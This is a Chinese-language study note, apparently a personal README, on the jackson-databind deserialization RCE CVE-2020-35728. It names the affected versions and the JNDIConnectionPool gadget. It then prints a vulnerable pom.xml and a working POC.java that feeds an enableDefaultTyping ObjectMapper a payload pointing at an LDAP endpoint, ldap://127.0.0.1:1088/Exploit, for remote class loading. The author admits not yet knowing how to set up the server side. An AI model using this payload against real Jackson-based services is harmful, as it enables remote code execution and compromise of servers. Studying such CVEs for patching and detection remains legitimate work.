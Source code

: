  jackson 代码执行 （CVE-2020-35728）

描述: jackson-databind存在一处反序列化远程代码执行漏洞(CVE-2020-35728)，该漏洞是由于com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool组件库存在不安全的反序列化，导致攻击者可以利用漏洞实现远程代码执行。 路径Jacksondatabind/attack



目前受影响的Jackson-databind版本：

Jackson-databind 2.0.0 - 2.9.10.7



漏洞原理：

FFasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

​        2.9.10.8之前的FasterXML jackson-databind 2.x对序列化小工具和打字之间的交互处理不当，与com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool（也就是org.glassfish.web/javax.servlet.jsp.jstl中的嵌入式Xalan）有关。

​        此次漏洞中攻击者可利用xbean-reflect的利用链触发JNDI远程类加载从而达到远程代码执行。

pom.xml

```java
<?xml version="1.0" encoding="UTF-8"?><project xmlns="http://maven.apache.org/POM/4.0.0"         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">    <modelVersion>4.0.0</modelVersion>
    <groupId>com.jacksonTest</groupId>    <artifactId>jacksonTest</artifactId>    <version>1.0-SNAPSHOT</version>    <dependencies>        <dependency>            <groupId>com.fasterxml.jackson.core</groupId>            <artifactId>jackson-databind</artifactId>            <version>2.9.10.7</version>        </dependency>        <!-- https://mvnrepository.com/artifact/org.glassfish.web/jakarta.servlet.jsp.jstl -->        <dependency>            <groupId>org.glassfish.web</groupId>            <artifactId>jakarta.servlet.jsp.jstl</artifactId>            <version>2.0.0</version>        </dependency>

        <dependency>            <groupId>org.slf4j</groupId>            <artifactId>slf4j-nop</artifactId>            <version>1.7.2</version>        </dependency>        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->        <dependency>            <groupId>javax.transaction</groupId>            <artifactId>jta</artifactId>            <version>1.1</version>        </dependency>    </dependencies></project>
```

poc.java

```
import com.fasterxml.jackson.databind.ObjectMapper;
public class POC {    public static void main(String[] args) throws Exception {        String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1088/Exploit\"}]";        ObjectMapper mapper = new ObjectMapper();        mapper.enableDefaultTyping();        Object obj = mapper.readValue(payload, Object.class);        mapper.writeValueAsString(obj);    }}
```

上面那个ip/目录还不知道该怎么配置，毕竟这里用的是 路径Jacksondatabind/attack

不知道有没有关联。

待学好java再来试试

